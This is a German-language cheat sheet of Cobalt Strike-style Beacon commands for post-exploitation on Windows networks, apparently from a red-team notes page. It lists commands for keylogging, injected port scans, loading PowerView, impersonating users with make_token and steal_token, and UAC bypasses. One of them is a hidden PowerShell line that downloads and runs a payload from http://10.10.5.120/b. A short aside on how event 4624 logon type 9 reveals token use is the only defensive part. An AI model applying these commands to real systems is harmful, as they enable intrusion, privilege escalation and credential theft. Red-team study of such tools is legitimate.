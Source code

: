 # Keylogger
keylogger [pid] [x86|x64]
## Ansicht > Tastenanschläge, um die gedrückten Tasten anzuzeigen

# Portscan
portscan [pid] [arch] [ziele] [ports] [arp|icmp|none] [maximale Verbindungen] # Portscan-Aktion in einen anderen Prozess injizieren
portscan [ziele] [ports] [arp|icmp|none] [maximale Verbindungen]

# Powershell
# Powershell-Modul importieren
powershell-import C:\pfad\zu\PowerView.ps1
powershell &#x3C;powershell-befehl hier eingeben>

# Benutzerimitation
## Token-Generierung mit Anmeldeinformationen
make_token [DOMAIN\benutzer] [passwort] # Token erstellen, um einen Benutzer im Netzwerk zu imitieren
ls \\computer_name\c$ # Versuchen Sie, das generierte Token zum Zugriff auf C$ auf einem Computer zu verwenden
rev2self # Aufhören, das mit make_token generierte Token zu verwenden
## Die Verwendung von make_token erzeugt das Ereignis 4624: Ein Konto wurde erfolgreich angemeldet. Dieses Ereignis ist in einer Windows-Domäne sehr häufig, kann aber durch Filtern nach dem Anmeldetyp eingeschränkt werden. Wie oben erwähnt, verwendet es LOGON32_LOGON_NEW_CREDENTIALS, was Typ 9 ist.

# UAC-Bypass
elevate svc-exe &#x3C;listener>
elevate uac-token-duplication &#x3C;listener>
runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"

## Token von pid stehlen
## Ähnlich wie make_token, aber das Token wird von einem Prozess gestohlen
steal_token [pid] # Außerdem ist dies nützlich für Netzwerkaktionen, nicht für lokale Aktionen
## Aus der API-Dokumentation wissen wir, dass dieser Anmeldetyp "dem Aufrufer das Klonen seines aktuellen Tokens ermöglicht". Deshalb gibt die Beacon-Ausgabe Impersonated &#x3C;aktueller_benutzername> an - es ahmt unser eigenes geklontes Token nach.
ls \\computer_name\c$ # Versuchen Sie, das generierte Token zum Zugriff auf C$ auf einem Computer zu verwenden
rev2self # Aufhören, das Token von steal_token zu verwenden

